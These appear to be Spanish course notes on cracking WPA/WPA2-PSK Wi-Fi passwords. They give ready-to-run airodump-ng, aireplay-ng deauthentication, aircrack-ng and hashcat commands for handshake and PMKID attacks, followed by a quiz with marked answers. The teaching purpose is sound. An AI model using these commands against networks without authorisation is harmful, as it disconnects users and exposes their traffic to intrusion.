 Las redes WPA/WPA2 fueron diseñadas para superar las debilidades del estándar WEP. Sin embargo, se han desarrollado técnicas que permiten descubrir la contraseña de acceso a estas redes.

## Usos
1. Redes domésticas o de invitados con cifrado.
2. Dispositivos confiables en el segmento (Impresoras, IoT, dispositivos VoIP).
3. Hotspots pequeños para grupos específicos (VIP, Administradores).

## Problemas Asociados
1. Todos los usuarios comparten la misma contraseña, lo que genera problemas de seguridad.
2. No hay distinción o autenticación individual de usuarios.
3. Redes críticas pueden usar este estándar, aumentando el riesgo.
4. Contraseñas débiles son vulnerables a ataques de fuerza bruta.

## Tipos de Ataque
### Con Clientes Conectados (Cracking del 4-way Handshake)
#### Monitorizar y capturar tráfico

```bash
	$ airodump-ng wlan0 -c 11 --essid 'nombre_red' --bssid AA:BB:CC:DD:EE:FF -w captura
```

#### Forzar deautenticación para capturar el 4-way handshake
```bash
	$ aireplay-ng -0 0 wlan0 -e 'nombre_red' --ignore-negative-one -a AA:BB:CC:DD:EE:FF
```

#### Crackear la contraseña con un diccionario
```bash
	$ aircrack-ng -b AA:BB:CC:DD:EE:FF -w diccionario-contraseñas.txt captura.cap
```

#### Usar herramientas avanzadas como hashcat
##### Exportar el handshake
```bash
     $ aircrack-ng captura.cap -j handshake.hccapx
```
##### Crackear con hashcat (máscara y diccionario)
```bash
     $ hashcat -m 2500 -a3 handshake.hccapx -1 "_-.$?!" -2 ?l?u?d?1 ?u?l?l?l?l?l?2?2
     $ hashcat -m 2500 -a0 handshake.hccapx diccionario_passwords.txt -r reglas
```

### Sin Clientes Conectados (Cracking del PMKID)
#### Capturar el PMKID (RSN IE)

```bash
	$ airodump-ng wlan0 -c 11 --essid 'nombre_red' --bssid AA:BB:CC:DD:EE:FF -w captura
```

#### Exportar el PMKID con aircrack-ng

```bash
	$ aircrack-ng captura.cap -j pmkid.hccapx
```

#### Crackear el PMKID con hashcat
- Máscara:

```bash
	$ hashcat -m 16800 -a3 pmkid.hccapx -1 "_-.$?!" -2 ?l?u?d?1 ?u?l?l?l?l?l?2?2
```

- Diccionario:

```bash
	$ hashcat -m 16800 -a0 pmkid.hccapx diccionario_passwords.txt -r reglas
```
## Para Saber Más
Consulta este [video en YouTube](https://www.youtube.com/watch?v=sl6hMBe2M7k) sobre ataques WPA2-PSK basados en captura y cracking del 4-way-handshake.

> **Nota:** El uso de contraseñas robustas puede mitigar los riesgos, ya que los procesos de cracking son lentos.

## **Autoevaluación**

- **Los ataques más comunes sobre las redes WPA/WPA2-PSK con clientes se basan en:**
	- Realizar un ataque de fuerza bruta probando diferentes contraseñas contra el Punto de Acceso.
		- Incorrecto

	- Capturar la autenticación del 4-way-handshake de un cliente legítimo en la red y realizar un proceso offline de cracking.
		- Correcto

	- Buscar contraseñas por defecto de acceso a la red.
		- Incorrecto

